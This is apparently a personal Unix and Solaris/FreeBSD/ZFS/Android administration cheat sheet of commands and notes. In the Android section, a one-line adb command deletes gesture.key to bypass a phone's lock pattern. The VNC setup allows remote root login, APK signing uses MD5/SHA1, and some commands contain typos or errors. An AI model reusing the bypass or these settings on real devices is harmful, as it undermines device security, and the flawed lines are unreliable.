   |-----------------+-------------------------------------------------------------------------------------|
   | $#              | The number of arguments.                                                            |
   | $0              | The command name.                                                                   |
   | $1, $2, ..., $9 | The individial arguments of the command.                                            |
   | $*              | The entire list of arguments, treated as a single word.                             |
   | $@              | The entire list of arguments, treated as a series of words.                         |
   | $?              | The exit status of the previous command. The value 0 denotes successful completion. |
   | $$              | The process id of the current process.                                              |


   The shell variable $? holds the numeric exit status of the most recently completed command. By convention, an exit status of zero denotes successful completion; other values denote error conditions of various sorts.

   You can set the error code in a script by issuing the exit command, which terminates the script and posts the specified exit status. The format of the command is:

   exit
   status

   0 = success
   1 = fail

   where status is a non-negative integer that specifies the exit status.

* signal (7)
  Standard Signals
       Linux supports the standard signals listed below. Several  signal  num-
       bers  are  architecture	dependent, as indicated in the "Value" column.
       (Where three values are given, the first one is usually valid for alpha
       and  sparc,  the	 middle one for i386, ppc and sh, and the last one for
       mips.  A - denotes that a signal is absent on the corresponding	archi-
       tecture.)

       First the signals described in the original POSIX.1-1990 standard.

       Signal	  Value	    Action   Comment
       -------------------------------------------------------------------------
       SIGHUP	     1	     Term    Hangup detected on controlling terminal
				     or death of controlling process
       SIGINT	     2	     Term    Interrupt from keyboard
       SIGQUIT	     3	     Core    Quit from keyboard
       SIGILL	     4	     Core    Illegal Instruction
       SIGABRT	     6	     Core    Abort signal from abort(3)
       SIGFPE	     8	     Core    Floating point exception
       SIGKILL	     9	     Term    Kill signal
       SIGSEGV	    11	     Core    Invalid memory reference
       SIGPIPE	    13	     Term    Broken pipe: write to pipe with no readers
       SIGALRM	    14	     Term    Timer signal from alarm(2)
       SIGTERM	    15	     Term    Termination signal
       SIGUSR1	 30,10,16    Term    User-defined signal 1
       SIGUSR2	 31,12,17    Term    User-defined signal 2
       SIGCHLD	 20,17,18    Ign     Child stopped or terminated
       SIGCONT	 19,18,25    Cont    Continue if stopped
       SIGSTOP	 17,19,23    Stop    Stop process
       SIGTSTP	 18,20,24    Stop    Stop typed at tty
       SIGTTIN	 21,21,26    Stop    tty input for background process
       SIGTTOU	 22,22,27    Stop    tty output for background process

       The  signals SIGKILL and SIGSTOP cannot be caught, blocked, or ignored.

* Squid Web Proxy
  /usr/local/squid/etc/squid.conf..............squid conf file
  /usr/local/squid/libexec/cachemgr.cgi........configuration tool
  /usr/local/squid/sbin/squid..................binary

  Configuring as tranparent proxy:
  +

  # In httpd.conf file for manager access
  /cgi-bin/cachemgr.cgi........manager cgi tool

  # In squid conf file for stats access
  acl <var> src <ipRange,ipAddr>
  http_access allow <var> manager
  192.168.1.88:3128/squid-internal-mgr/info.........stats

* Startup at boot
  You can add scripts into /etc/init.d/
  You can add lines to /etc/rc.local

* Sysrq-keys sequence
  # Enable SysRq key
  echo 1 > /proc/sys/kernel/sysrq

  Reboot Even If System Utterly Broken
  Raising Elephants Is So Utterly Boring
  REISUB
  BUSIER

  unR_aw (take control of keyboard back from X),
  tE_rminate (send SIGTERM to all processes, allowing them to terminate gracefully),
  kI+ll (send SIGKILL to all processes, forcing them to terminate immediately),
  S_ync (flush data to disk),
  U_nmount (remount all filesystems read-only), reBoot.

  0-9	Set the console log level, which controls the types of kernel messages that are output to the console
  b	Immediately reboot the system, without unmounting partitions or syncing
  c	Reboot kexec and output a crashdump
  d	Display all currently held Locks
  e	Send the SIGTERM signal to all processes except init (PID 1)
  f	Call oom_kill, which kills a process to alleviate an OOM condition
  g	When using Kernel Mode Setting, provides emergency support for switching back to the kernel's framebuffer console[4] If the in-kernel debugger 'kdb' is present, enter the debugger.
  h	Output a terse help document to the console; Any key which is not bound to a command should also perform this action
  i	Send the SIGKILL signal to all processes except init
  k	Kill all processes on the current virtual console (Can be used to kill X and svgalib programs, see below); This was originally designed to imitate a Secure Access Key
  m	Output current memory information to the console
  n	Reset the nice level of all high-priority and real-time tasks
  o	Shut off the system
  p	Output the current registers and flags to the console
  q	Display all active high-resolution timers and clock sources.
  r	Switch the keyboard from raw mode, the mode used by programs such as X11 and svgalib, to XLATE mode
  s	Sync all mounted filesystems
  t	Output a list of current tasks and their information to the console
  u	Remount all mounted filesystems in read-only mode
  v	Output Voyager SMP processor information
  w	Display list of blocked (D state) tasks

* SQLITE3
sqlite> SELECT Name, Day FROM Customers NATURAL JOIN Reservations;

sqlite> SELECT Name, Day FROM Customers AS C JOIN Reservations
   ...> AS R ON C.CustomerId=R.CustomerId;

sqlite> SELECT Name, Day FROM Customers LEFT JOIN Reservations
   ...> ON Customers.CustomerId = Reservations.CustomerId;

sqlite> SELECT * FROM TABLE WHERE column LIKE '%cats%'

* UNIX
** chpass
   change user information

** http://www.freebsd.org/doc/handbook/

** ipfw

** pw
      /etc/master.passwd      The user database
      /etc/passwd	     A Version 7 format password file
      /etc/login.conf	     The user capabilities database
      /etc/group 	     The group database
      /etc/master.passwd.new  Temporary copy of the master password file
      /etc/passwd.new	     Temporary copy of the Version 7 password file
      /etc/group.new	     Temporary copy of the group file
      /etc/pw.conf	     Pw default options file
      /var/log/userlog	     User/group modification logfile
** sysinstall
   sysinstall can be used to install partition an label a new disk using its GUI.

* UNIX : FREEBSD
  # Background
  Boots via /sbin/init like any other Unix
  /sbin/init runs /etc/rc, which sources /etc/rc.conf
  /etc/rc.conf controls which services start at boot, and also configures things like IP address, default route, and jails

  /sbin/init calls /etc/rc, which boots the system

** 0 : install ports
  # Fresh install of FREEBSD
  # ports to install: bash, rsync, emacs, cmdwatch, exfat
cd /usr/ports/shells/bash && make install clean BATCH=yes >/tmp/install-bash.log &
cd /usr/ports/editors/emacs && make install clean BATCH=yes >/tmp/install-emacs.log &
cd /usr/ports/net/rsync && make install clean BATCH=yes >/tmp/install-rsync.log &
cd /usr/ports/sysutils/exfat-utils && make install clean BATCH=yes >/tmp/install-exfat-utils.log &
cd /usr/ports/sysutils/fusefs-exfat && make install clean BATCH=yes >/tmp/install-fusefs-exfat.log &
cd /usr/ports/sysutils/cmdwatch && make install clean BATCH=yes >/tmp/install-cmdwatch.log &

** /etc/netstart
   # /etc/netstart will reload and execute rc.conf

** /etc/sysctl.conf
   vfs.nfsd.server_min_nfsvers=4

** COMMAND : camcontrol
   # FreeBSD CAM subsystem
   camcontrol rescan all

   Tell the kernel to scan all busses in the system (with the
   all argument), the given bus (XPT_SCAN_BUS), or bus:tar-
   get:lun (XPT_SCAN_LUN) for new devices or devices that have
   gone away.  The user may specify a scan of all busses, a sin-
   gle bus, or a lun.  Scanning all luns on a target is not sup-
   ported.

     The camcontrol utility has	a number of primary functions, many of which
     support an	optional device	identifier.  A device identifier can take one
     of	three forms:

     deviceUNIT	     Specify a device name and unit number combination,	like
		     "da5" or "cd3".

     bus:target	     Specify a bus number and target id.  The bus number can
		     be	determined from	the output of ``camcontrol devlist''.
		     The lun defaults to 0.

     bus:target:lun  Specify the bus, target and lun for a device.  (e.g.
		     1:2:0)

** COMMAND : chsh
   # Change default shell

** COMMAND : cmdwatch
   # Equivalent to Linux "watch"

** COMMAND : coretemp
   # load coretemp module
   kldload coretemp

   echo coretemp_load="YES" >> /boot/loader.conf

   sysctl -a | grep temperature

** COMMAND : dtrace
  # dtrace -n :zfs:zio_checksum_error:entry
cleek[bash]# dtrace -n :zfs:zio_checksum_error:entry
dtrace: description ':zfs:zio_checksum_error:entry' matched 1 probe
CPU     ID                    FUNCTION:NAME
  0  40650         zio_checksum_error:entry
  0  40650         zio_checksum_error:entry
  0  40650         zio_checksum_error:entry
  0  40650         zio_checksum_error:entry
[...]

** COMMAND : fuser
   # fuser - identify users of files and devices
   fuser -c /mnt/c1t2d1

** COMMAND : ipfw
   # default firewall

** COMMAND : pw lock {username}
   # lock account

** COMMAND : pw unlock {username}
   # unlock account

** COMMAND : pw usermod {username} -G {group1,group2}
   # add user to additional groups

** COMMAND : sysctl
   # In Linux, you can use /proc to see various bits of kernel and system info. In FreeBSD, the equivalent is sysctl. Linux also has sysctl, but its usefulness is nowhere near that of FreeBSD's sysctl. FreeBSD versions prior to 5.0 had a working /proc implementation. However, several serious security issues were discovered and it was decided to move away from /proc. The replacement is sysctl.
   sysctl vfs.nfsd.server_min_nfsvers=4

** COMMAND : smartctl
   # Control and Monitor Utility for SMART Disks
   /usr/ports/sysutils/smartmontools

   smartctl --scan

   # show temperature for all devices
   for HDD in `smartctl --scan|grep -oE '^[/dev/daadapassses]+[0-9]{1,2}'`; do printf "=> $HDD\n"; smartctl -a $HDD|grep -E 'Temperature.*C'; done

** make install clean BATCH=yes
   # default all questions to yes for installation of port

** nfs
  # Configuration
cat >> /etc/rc.conf <<EOF
nfs_server_enable="YES"
nfs_server_flags="-u -t -n 10"
mountd_enable="YES"
mountd_flags="-r"
EOF

  # Issue with mountd not working with ZFS
  # https://groups.google.com/forum/#!topic/mailing.freebsd.stable/tenOz7NTenM
  mountd_flags="-r -p 998"

  nfs_server_flags=
    # u		udp
    # t		tcp
    # n		start 10 instances of itself

*** nfs client
    cat >> /etc/rc.conf <<EOF
    nfs_client_enable="UES"
    nfs_client_flags="-n 4"
    EOF

*** mount_nfs
    mount_nfs machine:dir localdirectory

*** PKI
    http://publib.boulder.ibm.com/infocenter/aix/v7r1/topic/com.ibm.aix.security/doc/security/nfs_public_key_crypto.htm

** nfsv4
   # Configuration settings needed for NFSv4

   _Server Setup_
   # rc.conf
   nfs_server_enable="YES"
   nfsv4_server_enable="YES"
   nfsuserd_enable="YES"

   # /etc/exports file
   need at least one ''V4:'' line


   _kernel support_
   # requirements in kernel's config(5) file
   options NFSD

** SSH
   # Enable su for user
   I think you add the user

** change hostname
   '/etc/rc.conf', and add the following line:
   hostname="new.host.name"

* UNIX : Solaris 11
** /var/adm/messages

** COMMAND : cfgadm
*** List disk visibility
    cfgadm -la

** COMMAND : devfsadm
   # devfsadm(1M) maintains the /dev namespace
   # Cleanup dandling /dev links
   devfsadm -C -v

   # disk, tape, port, audio, and  pseudo
   devfsadm -C -c disk -v

** COMMAND : dladm
LINK                CLASS     MTU    STATE    OVER
net1                phys      1500   down     --
net3                phys      1500   up       --
net0                phys      1500   down     --
net2                phys      1500   down     --

*** dladm show-phys
    # show physical interfaces
LINK              MEDIA                STATE      SPEED  DUPLEX    DEVICE
net1              Ethernet             down       0      unknown   ixgbe1
net3              Ethernet             up         1000   full      e1000g1
net0              Ethernet             down       0      unknown   ixgbe0
net2              Ethernet             down       0      unknown   e1000g0

*** dladm show-phys -L
LINK              DEVICE       LOC
net0              ixgbe0       PCIE#4-x4
net1              ixgbe1       PCIE#4-x4
net2              e1000g0      PCIE#5-x8
net3              e1000g1      PCIE#6-x8

** COMMAND : format
   # format -e

** COMMAND : groups
   # Lists all groups user is in
   User can be in up to 15 secondary groups

** COMMAND : iostat
      example% iostat -xtc 5 2
                             extended disk statistics       tty         cpu
      disk r/s  w/s Kr/s Kw/s wait actv svc_t  %w  %b  tin tout us sy wt id
      sd0   6.2 0.0 21.5  0.0 0.0  0.1  24.1   0   15   0   84  4  94  2 0
      sd1   1.8 0.0 14.3  0.0 0.0  0.1  41.6   0    7
      sd2   0.0 0.0  0.0  0.0 0.0  0.0   0.0   0    0
      sd3   5.6 0.2 25.7  0.2 0.0  0.1  22.5   0   13
                             extended disk statistics       tty         cpu
      disk r/s  w/s Kr/s Kw/s wait actv svc_t  %w  %b  tin tout us sy wt id
      sd0   2.6 3.0 20.7 22.7 0.1  0.2  59.2   6   19   0   84  3  85 11 0
      sd1   4.2 1.0 33.5  8.0 0.0  0.2  47.2   2   23
      sd2   0.0 0.0  0.0  0.0 0.0  0.0   0.0   0    0
      sd3  10.2 1.6 51.4 12.8 0.1  0.3  31.2   3   31
      example%

      The fields have the following meanings:

           disk    name of the disk
           r/s     reads per second
           w/s     writes per second
           Kr/s    kilobytes read per second
           Kw/s    kilobytes written per second
           wait    average number of transactions waiting for ser-
                   vice (queue length)
           actv    average number of transactions  actively  being
                   serviced  (removed  from  the queue but not yet
                   completed)

           %w      percent of time there are transactions  waiting
                   for service (queue non-empty)
           %b      percent of time the disk is busy  (transactions
                   in progress)

** COMMAND : ipadm
*** ipadm create-ip net0

*** ipadm show-if

*** ipadm create-addr -T static -a 10.163.198.20/24 net0/acme
    # description
    acme

** COMMAND : mdb
*** Show memory usage
    # Forces kernel debugging mode
    mdb -k
    ::memstat

*** Show interrupts
    echo ::interupts -d | mdb -k

** COMMAND : newgrp <group>
   # Logs user in under that group

** COMMAND : pfiles
   # Report fstat(2) and fcntl(2) information  for  all
   open files in each process. For network endpoints,
   the local (and peer if connected) address informa-
   tion  is  also  provided.  For sockets, the socket
   type, socket options and send and  receive  buffer
   sizes  are  also  provided. In addition, a path to
   the file is reported if the information is  avail-
   able  from /proc/pid/path. This is not necessarily
   the same name used to open the file.  See  proc(4)
   for more information.

   pfiles `fuser -c /var 2>/dev/null` | egrep '^[0-9]|/var'

** COMMAND : preap
   # Kill defunct zombie processes in the process table

** COMMAND : prtconf
   # print system configuration

** COMMAND : prtdiag
*** prtdiag -v
    # Example
    user@ZFS:~$ `which prtdiag` -v
    System Configuration: Supermicro X7DCL
    BIOS Configuration: Phoenix Technologies LTD 1.0b 05/12/2008
    BMC Configuration: IPMI 1.0 (unknown)

    ==== Processor Sockets ====================================

    Version                          Location Tag
    -------------------------------- --------------------------
    Intel(R) Xeon(R) CPU           X LGA771
    Intel(R) Xeon(R) CPU           X5 LGA771

    ==== Memory Device Sockets ================================

    Type        Status Set Device Locator      Bank Locator
    ----------- ------ --- ------------------- ----------------
    DDR2        in use 1   CH0_DIMM0           DIMM 0-1
    DDR2        in use 1   CH1_DIMM0           DIMM 1-1
    DDR2        in use 1   CH0_DIMM1           DIMM 0-2
    DDR2        in use 1   CH1_DIMM1           DIMM 1-2
    DDR2        empty  1   CH0_DIMM2           DIMM 0-3
    DDR2        empty  1   CH1_DIMM2           DIMM 1-3

    ==== On-Board Devices =====================================

    ==== Upgradeable Slots ====================================

    ID  Status    Type             Description
    --- --------- ---------------- ----------------------------
    1   available PCI              PCI#1-33MHz
    2   available PCI              PCI#2-33MHz
    3   available PCI              PCI#3-33MHz
    4   in use    PCI Express      PCIE#4-x4
    5   available PCI Express      PCIE#5-x8
    6   in use    PCI Express      PCIE#6-x8

*** ipmitool

** COMMAND : rmformat
   # Look for removable devices

** COMMAND : smbadm
*** smbadm show-shares localhost

*** smbadm enable-user paulie

** COMMAND : svcadm
*** svcadm refresh svc:/network/ssh:default

*** svcadm enable -r smb/server
    # -r recurssive

*** svcadm disable -t smb/server
    # -t until reboot

** Command : svccfg
   # import, export, and modify service configurations

** COMMAND : svcs
*** svcs -a | grep -i vnc

** COMMAND : testparm
   # Check an smb.conf configuration file for internal correctness



** Firewall (IP Filter)
   https://docs.oracle.com/cd/E23824_01/html/821-1453/eupsq.html#SYSADV3eupsq




** Enable Samba
   # As root
   pkg install samba

   # Normal user
   pfexec pkg install samba

   # Set maximum groups to 1024
   /etc/system
   set ngroups_max=1024

** Enable VNC
by default, In Solaris 10, VNC service is almost configured. Below is the process to enable it.

    Check VNC service

root# svcs -a | grep -i vnc
disabled 13:47:12 svc:/application/x11/xvnc-inetd:default

    We need to enable the VNC service

root# svcadm enable svc:/application/x11/xvnc-inetd:default

    By default, it broken we need to do some changes.

root# svcs svc:/application/x11/xvnc-inetd:default
STATE STIME FMRI
maintenance 14:22:41 svc:/application/x11/xvnc-inetd:default

    Need to append vnc to the      /etc/services

root# echo “vnc-server\t5900/tcp\t\t\t# Xvnc” >>/etc/services

    Cross verify /etc/services

root# tail /etc/services

snmpd 161/udp snmp # SMA snmp daemon
vnc-server 5900/tcp # Xvnc

    Need to customizethe gnu display      manager

root# ls -al /etc/X11/gdm/custom.conf
/etc/X11/gdm/custom.conf: No such file or directory

    configure and enable gnu display      manager for vnc

root# cat >/etc/X11/gdm/custom.conf <<!
[xdmcp]
Enable=true
[security]
DisallowTCP=false
AllowRoot=true
AllowRemoteRoot=true
!

    Cross verify the customized      configuration file

    root# ls -al /etc/X11/gdm/custom.conf
  -rw-r–r– 1 root root 85 Dec 19 14:43 /etc/X11/gdm/custom.conf

    Disable and enable and validate      the vnc service

   root# svcadm disable svc:/application/x11/xvnc-inetd:default


   root# svcadm enable svc:/application/x11/xvnc-inetd:default

   root# svcs svc:/application/x11/xvnc-inetd:default


   STATE STIME FMRI
online 14:46:43 svc:/application/x11/xvnc-inetd:default

    Now use VMC client on the network to  check the VNC server

** Hostname
   Setting the Host Name

   In Oracle Solaris 11, /etc/nodename has been removed and replaced with the config/nodename property of the svc:/system/identity:node service.

   To set the host name, we again use svccfg:

   root@solaris:~# svccfg -s svc:/system/identity:node setprop config/nodename = astring: hostname
   root@solaris:~# svcadm refresh svc:/system/identity:node
   root@solaris:~# svcadm restart identity:node


   Setting the host name this way will work for both automatic and manual network configurations.
   Changes to /etc/hosts

   In Oracle Solaris 11, the host's own entry in /etc/hosts is now the same as that of localhost. In previous versions of Oracle Solaris, this entry was associated with the first network interface.

   root@solaris:~# cat /etc/hosts
   #
   # Copyright 2009 Sun Microsystems, Inc.  All rights reserved.
   # Use is subject to license terms.
   #
   # Internet host table
   #
   ::1 localhost zfs zfs.bethesda.us.hq.skynet
   127.0.0.1 localhost zfs zfs.bethesda.us.hq.skynet

   Note: Some application installers might fail due to changes in the /etc/hosts file. If you experience this, you might have to edit /etc/hosts directly.

** Samba sharing
   https://docs.oracle.com/cd/E23824_01/html/821-1449/configuringoperationmodetm.html#configureworkgroupmodetask

   svcadm enable -r smb/server
   smbadm join -w SKYNET
   vi /etc/pam.conf
   # Solaris 11 GA only (other    password required    pam_smb_passwd.so.1    nowarn)
   vi /etc/pam.d/other
   # Solaris 11 U1 or later (password required       pam_smb_passwd.so.1 nowarn)
   smbadm enable-user paulie
   passwd user

** Slow SSH logon (due to DNS)
   root@cms-cluster1:~# uname -a
   SunOS cms-cluster1 5.11 11.1 sun4v sparc sun4v
   root@cms-cluster1:~# ssh -V
   Sun_SSH_2.2, SSH protocols 1.5/2.0, OpenSSL 0x100000bf
   root@cms-cluster1:~# echo .GSSAPIAuthentication no. >> /etc/ssh/sshd_config
   root@cms-cluster1:~# echo .LookupClientHostnames no. >> /etc/ssh/sshd_config
   root@cms-cluster1:~# svcadm restart ssh

** Start VNC
   /usr/bin/vncserver

** Static IP
   Creating a static IP address is a two-step process, and it involves creating an IP interface and an IP address. There can be multiple IP addresses associated with an IP interface. IP address objects have names in the form interface/description.

   In the example shown in Listing 1, we use acme as the description.

   root@solaris:~# ipadm create-ip net0
   root@solaris:~# ipadm show-if
   IFNAME     CLASS      STATE      ACTIVE      OVER
   lo0        loopback   ok         yes         ---
   net0       ip         down       no          ---
   root@solaris:~# ipadm create-addr -T static -a 10.163.198.20/24 net0/acme
   root@solaris:~# ipadm show-if
   IFNAME      CLASS     STATE      ACTIVE      OVER
   lo0         loopback  ok         yes         ---
   net0        ip        ok         yes         ---
   root@solaris:~# ipadm show-addr
   ADDROBJ     TYPE      STATIC     ADDR
   lo0/v4      static    ok         127.0.0.1/8
   net0/acme   static    ok         10.163.198.20/24
   lo0/v6      static    ok         ::1/128

   Listing 1. Configuring a Static IP Address

   We can then add a persistent default route:

   root@solaris:~# route -p add default 10.163.198.1
   add net default: gateway 10.163.198.1
   add persistent net default: gateway 10.163.198.1

** Resize Encrypted LVM
   1. Extend the partition in parted
   2. Load the cryptsetup module
      # modprobe dm-crypt
   3. Decrypt your filesystem
      # cryptsetup luksOpen /dev/sda3 crypt1
   4. Activate LVM
      # vgscan --mknodes
      # vgchange -ay
   5. Resize the Crypt
      # cryptsetup resize crypt1
   6. Resize LVM PV
      # pvresize /dev/mapper/crypt1
   7. Unlock PV
      # pvchange -x y /dev/mapper/crypt1
   8. Resize LVM LV
      # lvresize -l +100%FREE /dev/system/home
   9. Lock PV
      # pvchange -x n /dev/mapper/crypt1
   10. Resize filesytem
       # mount /dev/system/home /mnt/xfs
       # xfs_resize /mnt/xfs
   11. Unmount everything
       # umount /mnt/xfs
       # pvchange

* ZFS
** Analyst system boot-up performance
   systemd-analyze plot > plot.svg

** zfs
   https://calomel.org/zfs_raid_speed_capacity.html
   https://pthree.org/2012/12/05/zfs-administration-part-ii-raidz/

   Capacity

   ZFS is a 128-bit file system, so it can address 1.84 × 1019 times more data than 64-bit systems such as Btrfs. The limitations of ZFS are designed to be so large that they should not be encountered in the foreseeable future.

   Some theoretical limits in ZFS are:

     2^48: number of entries in any individual directory
     16 exbibytes (2^64 bytes): maximum size of a single file
     16 exbibytes: maximum size of any attribute
     2^56 zebibytes (2^78 bytes): maximum size of any zpool
     2^56: number of attributes of a file (actually constrained to 2^48 for the number of files in a ZFS file system)
     2^64: number of devices in any zpool
     2^64: number of zpools in a system
     2^64: number of file systems in a zpool

*** bootable ZFS root pool
    # For a bootable ZFS root pool, the disks in the pool must contain slices and must be labeled with an SMI label. The simplest configuration would be to put the entire disk capacity in slice 0 and use that slice for the root pool.
    # http://docs.oracle.com/cd/E19082-01/817-2271/gavwn/


*** zfs clone pool/tank@snapshot pool/tank
    # copy a snapshot to a new dataset

*** zfs create

*** zfs destroy [-d] pool/tank<@snapshot>
    # destroy dataset <snapshot>

    # -d		destroy held snapshot

*** zfs diff pool/tank@before pool/tank@after
    # changes between datasets
    The type of change is described with a single character:
    +   Indicates the file/directory was added in the later dataset
    -   Indicates the file/directory was removed in the later dataset
    M   Indicates the file/directory was modified in the later dataset
    R   Indicates the file/directory was renamed in the later dataset

*** zfs get <all | property>

*** zfs hold [-r] keep pool/tank@snapshot
    # Holding a snapshot prevents it from being destroyed
    # Allows a snapshot with clones to be deleted pending the removal of the last clone by using the zfs destroy -d command

*** zfs holds [-r] tank
    # display a list of held snapshots

*** zfs list <pool>

*** zfs promote pool/tank
   # replace a zfs file system with a zfs clone

==
# zfs create tank/test
# zfs create tank/test/productA
# zfs snapshot tank/test/productA@today
# zfs clone tank/test/productA@today tank/test/productAbeta
# zfs list -r tank/test
NAME                       USED  AVAIL  REFER  MOUNTPOINT
tank/test                  104M  66.2G    23K  /tank/test
tank/test/productA         104M  66.2G   104M  /tank/test/productA
tank/test/productA@today      0      -   104M  -
tank/test/productAbeta        0  66.2G   104M  /tank/test/productAbeta
# zfs promote tank/test/productAbeta
# zfs list -r tank/test
NAME                           USED  AVAIL  REFER  MOUNTPOINT
tank/test                      104M  66.2G    24K  /tank/test
tank/test/productA                0  66.2G   104M  /tank/test/productA
tank/test/productAbeta         104M  66.2G   104M  /tank/test/productAbeta
tank/test/productAbeta@today      0      -   104M  -

# zfs rename tank/test/productA tank/test/productAlegacy
# zfs rename tank/test/productAbeta tank/test/productA
==

*** zfs release [-r] keep pool/tank@snapshot
    # Release hold on snapshot

*** zfs rename [-f] filesystem|volume|snapshot filesystem|volume|snapshot
    # rename pool or snapshot

*** zfs rollback [-r] pool/tank@snapshot
    # roll back to snapshot
    # use -r to force deletion of earlier snapshots

*** zfs set property=<on | off> <pool>
    zfs set compress=on tankzz
    zfs set dedup=on tankzz
    zfs set sharenfs=on tankzz
      # /etc/zfs/exports
      # Add zfs_enable=YES in /etc/rc.conf

*** zfs share [-a | filesystem]

*** zfs snapshot [-r] tank@snapshot-name
    # create snapshot <recursively> on tank

*** zfs start at boot
    [ `grep zfs_enable /etc/rc.conf` ] && echo ZFS enabled || (echo 'zfs_enable="YES"' >> /etc/rc.conf; echo ZFS added)

*** zfs jail
    # not just chroot(2)
    - everythign lives under a directory mounted on the FS
    - you *can* access the jail via chroot, but you don't get all the wins
    - every jail has at least one IPv4/IPv6 address
    - lightweight
    - run Linux in a jail

    # jail tools
    jailadmin
    jailctl
    jailer
    jailme
    jailrc
    jailuser
    jailutil
    jexec
    jkill
    jls
    jps
    ...

** zfs : ARC (ZIL + L2ARC)
   https://pthree.org/2012/12/03/how-a-zil-improves-disk-latencies/
   https://blogs.oracle.com/brendan/entry/test

*** Set maximum number
When loading the "zfs" kernel module, make sure to set a maximum number for the ARC. Doing a lot of "zfs send" or snapshot operations will cache the data. If not set, RAM will slowly fill until the kernel invokes OOM killer, and the system becomes responsive. I have set in my /etc/modprobe.d/zfs.conf file "options zfs zfs_arc_max=2147483648", which is a 2 GB limit for the ARC.

*** use disk ID /dev/disk/by-id/
    # rather than the direct device, as it's guaranteed to be unique and persistent, even if the /dev/sd? assignment changes on boot. Because the cache drives are not persistent, they may not retain metadata about what they contain, so the pool will not add them if it can't find them.

*** Adding ZIL (ZFS Intent Log) + L2ARC
    # zpool add pool-name log mirror ata-OCZ-REVODRIVE_OCZ-33W9WE11E9X73Y41-part1 ata-OCZ-REVODRIVE_OCZ-X5RG0EIY7MN7676K-part1
    # zpool add pool-name cache ata-OCZ-REVODRIVE_OCZ-33W9WE11E9X73Y41-part2 ata-OCZ-REVODRIVE_OCZ-X5RG0EIY7MN7676K-part2

** zpool
*** "Grow" a disk
https://bugs.freenas.org/issues/342

In order to "grow" a disk, the following operation have to be done from command line at this time. We are working on a better solution.

    zpool export pool_to_be_grown
    swapoff -a
    (make the disk grow)
    gpart backup ada0 > ada0.gpart
    (repeat for EVERY disk in the pool; this is to backup the partition table in a text file so you could recover from mistake.)
    gpart resize -i 2 ada0
    (2 is the typical index number, repeat for every disk in the pool)
    gpart show
    (review if the partiton table is good)
    swapon -a
    zpool import pool_to_be_grown
*** Expanding a ZFS pool
http://www.itsacon.net/computers/unix/growing-a-zfs-pool/
http://www.itsacon.net/computers/unix/expanding-a-zfs-pool/

*** zpool create mypool mirror da0 da1 mirror da2 da3

*** zpool export pool_to_be_grown

*** zpool history pool
    # shows history of changes made to pool

*** zpool import <pool> <new_name>
    # list pools that can be imported

    # import all pools
    zpool import -a

** iostat
*** iostat -xzn (Solaris)
                     extended device statistics
     r/s    w/s   kr/s   kw/s wait actv wsvc_t asvc_t  %w  %b device
     0.0    0.1    0.1   48.7  0.0  0.0    0.0   41.7   0   0 c3t0d0
     0.0    0.0    0.3    0.0  0.0  0.0    0.0    0.1   0   0 c3t1d0
     1.7    1.8   70.6   23.9  0.0  0.0    1.0    0.5   0   0 c3t2d0
     0.0    0.0    0.3    0.0  0.0  0.0    0.0    0.1   0   0 c3t3d0
     0.1    1.8    0.3  326.5  0.2  0.0  109.4    1.9   1   0 c1t0d0
     0.0    1.7    0.3  323.3  0.2  0.0  124.8    2.0   1   0 c1t0d1
     0.1    1.8    0.4  327.9  0.2  0.0   90.2    2.7   1   1 c1t0d2
     0.1    1.7    0.4  325.9  0.3  0.0  186.8    1.6   2   0 c1t0d3
     0.1    0.0    0.9    0.0  0.0  0.0    0.0    0.9   0   0 c4t0d0

*** iostat -xz
                 extended device statistics
device    r/s    w/s   kr/s   kw/s wait actv  svc_t  %w  %b
sd0       0.0    0.1    0.1   59.7  0.0  0.0   45.0   0   0
sd1       0.0    0.0    0.3    0.0  0.0  0.0    0.1   0   0
sd2       1.6    1.8   70.0   23.7  0.0  0.0    1.5   0   0
sd3       0.0    0.0    0.3    0.0  0.0  0.0    0.1   0   0
sd4       0.1    2.0    0.3  376.8  0.3  0.0  123.7   1   0
sd5       0.1    2.0    0.3  376.8  0.3  0.0  138.8   1   0
sd6       0.1    2.0    0.4  376.9  0.2  0.0   97.9   1   1
sd7       0.1    2.0    0.4  377.4  0.4  0.0  169.0   2   0
sd16      0.1    0.0    0.9    0.0  0.0  0.0    0.9   0   0



* Android

** adb reboot
** adb shell pm clear my.wonderful.app.package
   clear app data

   still doesn't clear everything it seems...
   Lookie here: http://stackoverflow.com/questions/1989931/android-delete-app-associated-files-from-external-storage-on-uninstall
** adb shell rm /data/system/gesture.key
   remove the lock-pattern
   the phone reboots and after reboot, just draw ANY pattern and it will unlock. :-)
** ant
   I forget what this is used for, but it's needed and it's an apache app

** boot.img
   dd if=boot.img of=/dev/block/mmcblk0p
** settings - /data/data/com.android.providers.settings/databases/settings.db
** Signing zip/apk
*** 1 keytool
    keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
*** 2 jarsigner
   jarsigner -verbose -sigalg MD5withRSA -digestalg SHA1 -keystore my-release-key.keystore my_application.apk alias_name

   for /F %A in ('dir /b | findstr /i ".zip") do jarsigner -verbose -sigalg MD5withRSA -digestalg SHA1 -keystore my-release-key.keystore %A alias_name
*** 3 zipalign
    for /F %A in ('dir /b | findstr /i ".zip") do zipalign -f -v 4 %A zipaligned\%A
** sqlite3
*** DELETE FROM table WHERE exp;
    delete from secure where _id = 64;
*** LIKE '%pattern%';
    select * from secure where name like '%bluetooth%';
*** LIMIT 1
    Show one row
    select * from secure limit 1;
*** INSERT INTO table (field1,field2) VALUES ("value1","value2");
    insert into secure (_id,name,value) values ("63","bluetooth_name","TEST");
*** UPDATE table SET column = "string" WHERE header = column;
    update secure set value = "BMO" where _id = 35;
*** Scripting
    commands.txt:

    CREATE TABLE log_entry (  );
    .separator "\t"
    .import logfile.log log_entry

    sqlite3 database.db < commands.txt
** storage locations
   unique container in which your application is stored is encrypted
   .android_secure portion of sdcard
** system apps - /system/app
** texts - /data/data/com.android.providers/telephony/databases/mmssms.db
** Update.zip
*** updater-script

    ui_print("Copying files...");
    run_program("/sbin/busybox", "mount", "/system");
    show_progress(1, 15);
    package_extract_dir("system", "/system");
    package_extract_file("install-optional.sh", "/tmp/install-optional.sh");
    run_program("/tmp/install-optional.sh", "");
    set_perm_recursive(0, 0, 0755, 0644, "/system/app");


    ui_print("***********************************************");
    ui_print("          Google Apps for Android 4.2.1");
    ui_print("");
    ui_print("          including:");
    ui_print("             /system/xbin/scp");
    ui_print("             /system/xbin/sftp-server");
    ui_print("             /system/xbin/su");
    ui_print("***********************************************");

    ui_print("Mounting system...");
    run_program("/sbin/busybox", "mount", "/system");
    show_progress(1, 15);
